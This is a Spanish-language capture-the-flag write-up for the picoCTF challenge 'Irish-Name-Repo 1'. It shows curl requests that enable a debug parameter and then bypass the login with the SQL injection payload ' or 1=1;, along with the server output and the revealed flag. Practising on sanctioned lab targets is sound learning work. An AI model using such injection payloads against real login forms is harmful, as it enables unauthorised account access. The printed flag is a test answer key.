 ### Irish-Name-Repo 1
## Objetivo

There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!
## Solución
```bash
macbookair@MacBook-Air-de-Aletsis ~ % curl https://jupiter.challenges.picoctf.org/problem/39720/login.php

<h1>Login failed.</h1>%                                                         macbookair@MacBook-Air-de-Aletsis ~ % curl https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username=admin&password=hola&debug=1"

<pre>username: admin

password: hola

SQL query: SELECT * FROM users WHERE name='admin' AND password='hola'

</pre><h1>Login failed.</h1>%                                                                                                                  macbookair@MacBook-Air-de-Aletsis ~ % curl https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username=admin&password=' or 1=1;&debug=1" 

<pre>username: admin

password: ' or 1=1;

SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1=1;'

</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_c218b685}</p>%
```
## Notas adicionales

1. Entramos al link
2. Cliqueamos al menu de la parte superior izquierda
3. Entramos al adminLoggin
4. inspeccionamos la pagina
5. Habilitamos la opcion debuger con 1
6. En el username le ponemos "admin';", password "hola"
7. Nos da la bandera
## Bandera

picoCTF{s0m3_SQL_c218b685}
## Hints

- There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
- Try to think about how the website verifies your login.

## Referencia

https://www.w3schools.com/sql/sql_injection.asp
